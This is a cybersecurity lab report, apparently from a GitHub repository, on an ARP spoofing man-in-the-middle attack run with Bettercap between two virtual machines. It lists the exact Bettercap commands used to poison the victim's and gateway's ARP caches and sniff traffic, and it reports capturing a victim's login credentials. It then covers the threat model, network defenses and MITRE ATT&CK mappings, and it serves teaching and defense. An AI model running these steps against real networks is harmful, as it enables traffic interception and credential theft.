







# Cybersecurity Report: ARP Spoofing Using Bettercap

## Introduction

BetterCAP is a powerful, flexible and portable tool created to perform various types of MITM attacks against a network, manipulate HTTP, HTTPS and TCP traffic in realtime, sniff for credentials and much more.

## Attack Setup

This report describes an ARP spoofing attack carried out in a controlled environment using two virtual machines:

 - Attacker: Kali Linux (with Bettercap)

 - Victim: Ubuntu Linux
   
   The goal of the experiment was to demonstrate how an attacker can intercept or manipulate traffic between two devices on a local network using ARP spoofing.

## What is ARP Spoofing?

ARP (Address Resolution Protocol) is used to map IP addresses to MAC (hardware) addresses on a local network. When a device wants to communicate with another, it sends an ARP request and the device with that IP replies with its MAC address.

ARP Spoofing is an attack where a malicious actor sends falsified ARP messages to a LAN. The attacker associates their MAC address with the IP address of another device (such as the gateway or a target machine), causing traffic to be misdirected.



## Purpose of ARP Spoofing

- Adversary-in-the-Middle (AitM): Intercept, read, or modify traffic.

- Denial of Service (DoS): Disrupt communication between devices.

- Credential theft or session hijacking: Capture sensitive data.

## Attack Execution

The following steps were performed using Bettercap on the Kali Linux VM to execute the ARP spoofing attack against the Ubuntu victim machine:

   **1. Launch Bettercap**

   
   
 ```bash
 sudo bettercap
```


**2. Enable network discovery modules:**

```net.probe on```: Actively sends probes to discover live hosts.

```net.recon on```: Passively listens for ARP, DHCP, and DNS packets to map the network.

**3. List all discovered hosts:**

```bash
net.show
```


192.168.112.99 is the IP address of the attacker's machine.

192.168.112.206 is the IP address of the gateway.

192.168.112.135 is the IP address of the victim's machine.


**4. Configure ARP spoofing:**



- Set full-duplex mode so that traffic between victim and gateway flows through the attacker:

  ```bash
  set arp.spoof.fullduplex true
  ```
- Set the target IPs — the victim's IP and the default gateway IP:

  ```bash
  set arp.spoof.targets 192.168.112.206, 192.168.112.135
   ```

  
  
**5. Start the ARP spoofing attack:**

```bash
arp.spoof on
```

**6. Begin sniffing the intercepted packets:**

```bash
net.sniff on
```

This allows the attacker to observe and capture network traffic between the victim and the rest of the network in real-time.



We can see here that the victim visited unicornitems.com

The victim logged on his account on the website.



The attacker can see the credentiales entered by the victim



## Threat Model

The necessary Threat Model for this attack entails the adversary possessing the following capabilities:

 1. Local Network Access
      - The attacker must be connected to the same local network as the victim (e.g., same Wi-Fi or LAN segment).
      - This may be achieved through physical access (e.g., connecting to an open or weakly protected network) or remote compromise of a device already on the   network.

2. No Network Isolation or ARP Inspection

      - The network does not implement protections like:

           - Dynamic ARP Inspection (DAI)
           - Static ARP entries
           - Port security or VLAN isolation

3. Sufficient Privileges

      - The attacker has administrative (root) privileges on their machine to run tools like Bettercap and enable IP forwarding.

4. No Encryption on Target Services

      - For traffic to be interpretable (e.g., seeing credentials), the victim must be using insecure protocols (like HTTP, FTP, etc.).

## Observed Impact

- The victim continued to access the internet unaware of the interception.
- The attacker was able to:
     - See plaintext HTTP traffic.
     - Capture login credentials (on insecure services).
 

## MITRE ATT&CK model

This ARP spoofing attack aligns with the following techniques and tactics from the MITRE ATT&CK framework (Enterprise v11):

- **Tactic: Credential Access**
  - **Technique: Adversary-in-the-Middle: ARP Cache Poisoning (T1557.002)**  
    The attacker poisons the ARP cache to intercept network traffic and gain access to sensitive credentials.  
    

  - **Technique: Network Sniffing (T1040)**  
    Once in an adversary-in-the-middle position, the attacker captures unencrypted data, including usernames and passwords.  
    

- **Tactic: Collection**
  - **Technique: Adversary-in-the-Middle: ARP Cache Poisoning (T1557.002)**  
    The attacker's position in the network allows the collection of data such as session tokens, HTTP requests, and transmitted files.


## Credits

- I have drawn inspiration for this attack from [this](https://www.youtube.com/watch?v=xrK6KA9yzQE) video tutorial.
- https://attack.mitre.org/
- https://www.bettercap.org/
